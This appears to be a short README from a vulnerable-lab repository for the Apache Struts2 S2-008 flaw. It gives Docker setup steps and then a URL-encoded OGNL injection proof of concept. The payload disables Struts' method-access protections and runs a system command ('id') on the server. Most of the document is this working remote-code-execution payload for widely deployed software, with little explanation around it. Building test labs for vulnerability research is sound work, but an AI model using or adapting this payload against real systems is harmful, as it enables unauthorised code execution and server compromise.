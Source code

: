 ### s2-008 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30080
```

```
poc:
%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-008/1.png)

